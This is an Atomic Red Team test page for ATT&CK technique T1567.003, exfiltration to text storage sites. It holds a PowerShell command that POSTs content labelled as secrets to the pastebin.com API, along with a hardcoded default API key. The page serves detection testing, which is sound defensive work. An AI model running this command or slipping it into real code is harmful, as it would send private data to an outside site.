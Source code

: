 # T1567.003 - Exfiltration Over Web Service: Exfiltration to Text Storage Sites

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1567/003)

<blockquote>Adversaries may exfiltrate data to text storage sites instead of their primary command and control channel. Text storage sites, such as <code>pastebin[.]com</code>, are commonly used by developers to share code and other information.

Text storage sites are often used to host malicious code for C2 communication (e.g., [Stage Capabilities](https://attack.mitre.org/techniques/T1608)), but adversaries may also use these sites to exfiltrate collected data. Furthermore, paid features and encryption options may allow adversaries to conceal and store data more securely.(Citation: Pastebin EchoSec)

**Note:** This is distinct from [Exfiltration to Code Repository](https://attack.mitre.org/techniques/T1567/001), which highlight access to code repositories via APIs.</blockquote>

## Atomic Tests

- [Atomic Test #1 - Exfiltrate data with HTTP POST to text storage sites - pastebin.com (Windows)](#atomic-test-1---exfiltrate-data-with-http-post-to-text-storage-sites---pastebincom-windows)

<br/>

## Atomic Test #1 - Exfiltrate data with HTTP POST to text storage sites - pastebin.com (Windows)

This test uses HTTP POST to exfiltrate data to a remote text storage site. (pastebin)  
See https://web.archive.org/web/20201107203304/https://www.echosec.net/blog/what-is-pastebin-and-why-do-hackers-love-it

**Supported Platforms:** Windows

**auto_generated_guid:** c2e8ab6e-431e-460a-a2aa-3bc6a32022e3

#### Inputs:

| Name    | Description      | Type   | Default Value                    |
| ------- | ---------------- | ------ | -------------------------------- |
| api_key | Pastebin API key | string | 6nxrBm7UIJuaEuPOkH5Z8I7SvCLN3OP0 |

#### Attack Commands: Run with `powershell`!

```powershell
$apiKey = "#{api_key}"
$content = "secrets, api keys, passwords..."
$url = "https://pastebin.com/api/api_post.php"
$postData = @{
  api_dev_key   = $apiKey
  api_option    = "paste"
  api_paste_code = $content
}
$response = Invoke-RestMethod -Uri $url -Method Post -Body $postData
Write-Host "Your paste URL: $response"
```

<br/>
